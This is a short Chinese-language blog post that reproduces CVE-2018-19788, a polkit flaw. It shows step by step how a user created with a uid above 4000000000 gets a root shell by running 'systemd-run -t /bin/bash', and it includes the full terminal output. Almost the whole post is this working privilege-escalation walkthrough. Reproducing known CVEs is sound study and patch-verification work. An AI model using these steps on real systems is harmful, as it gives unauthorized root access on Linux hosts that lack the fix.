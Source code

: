 ```yaml
---
title: cve-2018-19788
date: 2022-01-28 15:13:13
tags:
- CVE
- polkit
---
```


## CVE-2018-19788复现方法

这个漏洞是任何uid超过4000000000的用户可以在系统上直接执行systemd的命令，复现方法如下

先创建一个uid超过4000000000的用户

```
root@nfs2:~# adduser -u 4000000000 wky2
正在添加用户"wky2"...
正在添加新组"wky2" (4000000000)...
正在添加新用户"wky2" (4000000000) 到组"wky2"...
创建主目录"/home/wky2"...
正在从"/etc/skel"复制文件...
输入新的 UNIX 密码：
重新输入新的 UNIX 密码：
passwd：已成功更新密码
正在改变 wky2 的用户信息
请输入新值，或直接敲回车键以使用默认值
	全名 []:
	房间号码 []:
	工作电话 []:
	家庭电话 []:
	其它 []:
这些信息是否正确？ [Y/n]
root@nfs2:~#
```

切换到新创建的用户，用户uid为4000000000

```
root@nfs2:~# su - wky2
wky2@nfs2:~$ id
uid=4000000000(wky2) gid=4000000000(wky2) 组=4000000000(wky2)
```

执行下面的命令，就会直接切到root用户

```
wky2@nfs2:~$ systemd-run -t /bin/bash

(process:121458): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
Running as unit: run-u95.service
Press ^] three times within 1s to disconnect TTY.
root@nfs2:/#id
uid=0(root) gid=0(root) 组=0(root)
root@nfs2:/# uid=0(root) gid=0(root) 组=0(root)
```


